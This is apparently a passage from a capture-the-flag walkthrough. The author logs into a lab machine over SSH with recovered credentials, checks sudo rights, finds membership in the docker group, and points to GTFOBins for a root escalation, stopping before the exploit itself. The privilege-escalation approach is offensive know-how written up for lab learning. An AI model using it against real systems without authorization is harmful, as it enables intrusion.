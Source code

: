 &nbsp;

## Task 4: The root of all evil
### What are the first 9 characters of the root user's private SSH key?
We can try logging in through SSH using the `r00t` user and `n100906` password.
```
$ ssh r00t@10.10.26.63             
r00t@10.10.26.63's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Dec 10 10:15:49 UTC 2023

  System load:  0.04               Processes:           102
  Usage of /:   24.4% of 19.56GB   Users logged in:     0
  Memory usage: 73%                IP address for eth0: 10.10.26.63
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

1 package can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Dec 10 09:44:13 2023 from 10.17.48.138
r00t@ultratech-prod:~$
```
Let's check what `sudo` commands the `r00t` user can run.
```
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
```
Looks like we will have to find another way.
If we run `id`, we can see that we are part of the `docker` group. 
```
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ which docker
/usr/bin/docker
r00t@ultratech-prod:~$ ls -l /usr/bin/docker
-rwxr-xr-x 1 root root 68631952 Feb 13  2019 /usr/bin/docker
```
Let's check the containers present.
```
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
```
We can see that there is a `bash` container.
We can find an exploit for it on GTFOBins.
